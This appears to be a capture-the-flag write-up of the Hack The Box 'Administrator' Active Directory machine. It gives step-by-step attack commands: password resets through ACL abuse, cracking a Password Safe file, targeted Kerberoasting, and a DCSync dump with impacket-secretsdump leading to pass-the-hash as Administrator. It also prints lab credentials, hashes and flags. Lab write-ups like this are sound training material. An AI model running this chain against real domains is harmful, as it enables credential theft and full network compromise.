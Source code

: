 # CTF Writeup - Administrator (Hack The Box)

## 🧪 Machine Details

- **Platform:** Hack The Box
- **IP Address:** 10.10.11.42
- **Difficulty:** Medium
- **OS:** Windows
- **Category:** Active Directory, Privilege Escalation, Password Cracking

---

## 🧭 Summary

This box simulates a realistic domain environment with multiple users and privilege escalation paths. You're provided with initial low-privileged credentials (`Olivia:ichliebedich`) and work your way up to a full domain compromise. Key highlights include using ACL misconfigurations to reset passwords, enumerating FTP for secrets, cracking a password manager file with `john`, leveraging BloodHound for access control visualization, and executing a targeted Kerberoasting attack to capture a service account hash with `DCSync` rights for full domain admin access.

---

## 🔍 Enumeration

### 🔎 Nmap Scan

```bash
nmap -p- administrator.htb --min-rate 10000
nmap -p 21,53,88,... -sCV administrator.htb -oN nmapscan
```

Revealed common AD services: FTP, SMB, LDAP, Kerberos, WinRM.

---

## 🔑 Initial Access

You start with credentials:

```
Username: Olivia
Password: ichliebedich
```

- FTP login fails due to directory permissions.
- SMB and WinRM confirm login access.

```bash
nxc smb administrator.htb -u Olivia -p ichliebedich
nxc winrm administrator.htb -u Olivia -p ichliebedich
```

---

## 👥 User Enumeration

Enumerated RID brute forcing with `nxc`:

```bash
nxc smb administrator.htb -u Olivia -p ichliebedich --rid-brute | grep SidTypeUser
```

Collected users: michael, benjamin, emily, ethan, alexander, emma, etc.

---

## 🕸️ BloodHound AD Enumeration

```bash
bloodhound-python -u Olivia -p ichliebedich -d administrator.htb -ns 10.10.11.42 -c All
```

Olivia has `GenericAll` over `michael` → reset his password  
Michael has password reset rights on `benjamin` → reset again

```bash
bloodyAD -u olivia ... set password Michael ...
bloodyAD -u Michael ... set password Benjamin ...
```

---

## 🔐 FTP + Credential Recovery

```bash
nxc ftp administrator.htb -u Benjamin -p Password123
ftp> get Backup.psafe3
```

Converted to `john` hash:

```bash
pwsafe2john Backup.psafe3 > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Cracked password: `tekieromucho`

Used PasswordSafe GUI to reveal:
- alexander
- emily → password: UXLCI5iETUsIBoFVTj8yQFKoHjXmb

---

## 🧑‍💻 User Shell

```bash
evil-winrm -i administrator.htb -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

Captured user.txt:
```
4d479030c20afac8ee4ad1b7757959a6
```

---

## 🧬 Kerberoasting → DCSync

Emily has `GenericWrite` over `ethan`

```bash
python targetedKerberoast.py -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb ...
```

Time sync fix:

```bash
sudo rdate -n administrator.htb
```

Password recovered: `limpbizkit`

---

## 🧰 SecretsDump to Domain Admin

```bash
impacket-secretsdump administrator.htb/ethan:limpbizkit@dc.administrator.htb
```

Captured NTLM hash for Administrator:
```
3dc553ce4b9fd20bd016e098d2d2fd2e
```

Logged in as Administrator:

```bash
evil-winrm -i administrator.htb -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

Got `root.txt`:
```
66cd2c404066adec0d050d2610a64c36
```

---

## 🧠 Lessons Learned

- Learned to leverage `BloodHound` for privilege relationships.
- Used `bloodyAD` to reset passwords.
- Cracked `Password Safe` files using `john`.
- Gained hands-on with `Kerberoasting`, `DCSync`, and `impacket-secretsdump`.
- Time desync issues can block Kerberos tools – always check and fix local clock.

---

✍️ *Writeup by inksec*  
🔗 [https://github.com/inkedqt](https://github.com/inkedqt)
